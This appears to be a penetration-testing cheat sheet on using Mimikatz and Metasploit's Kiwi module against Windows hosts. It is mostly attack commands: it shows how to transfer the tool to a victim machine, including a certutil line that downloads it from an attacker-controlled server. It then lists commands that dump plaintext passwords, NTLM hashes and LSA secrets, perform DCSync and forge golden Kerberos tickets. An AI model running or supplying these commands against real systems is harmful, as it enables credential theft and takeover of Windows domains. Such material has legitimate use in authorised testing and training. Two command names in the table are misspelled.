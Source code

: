 **Mimikatz** allows to extract sensitive data, such as plaintext passwords, password hashes, and Kerberos tickets, directly from a system's memory. Its capabilities, such as credential dumping, Pass-the-Hash, and Golden Ticket attacks, highlight weaknesses in Windows security.


## Transmit and Execute Mimikatz 

To run Mimikatz on a victim machine, you first need to transmit the Mimikatz executable to the machine.

#### Using Metasploit

```bash
cd C:\\Windows\\Temp\\
upload /usr/share/windows-resources/mimikatz/x64/ 
# Once uploaded, you can execute it through the Meterpreter session
execute -f C:\\Windows\\Temp\\mimikatz.exe
```

#### Using Python server

```bash
# Linux machine
python3 -m http.server 8000
# Windows machine
certutil -urlcache -f http://<attacker-ip>:<port>/mimikatz.exe mimikatz.exe
# Execute
mimikatz.exe
```

## **Enable Debug Privileges**

For Mimikatz to interact with Windows security processes like LSASS (Local Security Authority Subsystem Service), you must grant it the necessary privileges. This is done by enabling the `debug` privilege within Mimikatz:

```bash
privilege::debug
```


## **Dumping Credentials**

Mimikatz can dump various credentials, such as passwords, hashes, and Kerberos tickets, from memory. Below are the most common commands to extract these credentials:

1.  **Dumping Plaintext Passwords**

To dump all plaintext passwords and related information from the memory:

```bash
sekurlsa::logonpasswords
```

This command displays detailed information about the current user's session, including usernames, domain names, and plaintext passwords if available.

2.  **Dumping NTLM Hashes**

To extract NTLM hashes of users' passwords:

```bash
lsadump::sam
```

This dumps the hashes of local user accounts stored in the SAM (Security Account Manager) database.


3.  **Dumping secrets**

The `lsadump::secrets` command in Mimikatz is used to extract secrets (like password hashes, Kerberos keys, and other sensitive data) from the LSA (Local Security Authority) secrets database in Windows systems.

```bash
lsadump::secrets
```

## Dumping Credentials with Kiwi
The **Kiwi module** in Metasploit is a module based on the **mimikatz** tool and allows you to extract sensitive data, such as plaintext passwords, password hashes, and Kerberos tickets, from a compromised machine. Here's a breakdown of how to use it for dumping credentials.

#### Usage

In your Metasploit console, you need to load the `kiwi` module to interact with the victim machine’s memory.

```bash
load kiwi
```

Once you have gained the Meterpreter session you can execute the following commands:

|**Command**|**Description**|
|---|---|
|`creds_all`|Retrieve all credentials (parsed)|
|`creds_kerberos`|Retrieve Kerberos credentials (parsed)|
|`creds_msv`|Retrieve LM/NTLM credentials (parsed)|
|`creds_ssp`|Retrieve SSP credentials (parsed)|
|`creds_tspkg`|Retrieve TsPkg credentials (parsed)|
|`creds_wdigest`|Retrieve WDigest credentials (parsed)|
|`dcsycn`|Retrieve user account information via DCSync (unparsed)|
|`dcsycn_ntlm`|Retrieve user account NTLM hash, SID, and RID via DCSync (unparsed)|
|`golden_ticket_create`|Create a golden Kerberos ticket|
|`kerberos_ticket_list`|List all Kerberos tickets (unparsed)|
|`kerberos_ticket_purge`|Purge any in-use Kerberos tickets|
|`kerberos_ticket_use`|Use a Kerberos ticket|
|`kiwi_cmd`|Execute an arbitrary Mimikatz command (unparsed)|
|`lsa_dump_sam`|Dump LSA SAM (unparsed)|
|`lsa_dump_secrets`|Dump LSA secrets (unparsed)|
|`password_change`|Change the password/hash of a user|
|`wifi_list`|List WiFi profiles/credentials for the current user|
|`wifi_list_shared`|List shared WiFi profiles/credentials (requires SYSTEM privileges)|